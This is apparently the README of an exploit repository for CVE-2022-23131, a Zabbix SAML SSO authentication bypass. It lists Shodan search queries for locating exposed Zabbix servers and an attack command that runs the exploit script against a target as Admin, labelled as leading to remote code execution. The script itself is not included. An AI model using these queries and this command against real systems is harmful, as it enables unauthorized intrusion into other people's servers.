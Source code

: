 # CVE-2022-23131
Zabbix - SAML SSO Authentication Bypass
- Shodan dork:
```
title:zabbix
```
```
http.favicon.hash:892542951
```
### Usage
- RCE
```
python3 zabbix_session_exp.py -t https:target.com -u Admin
```

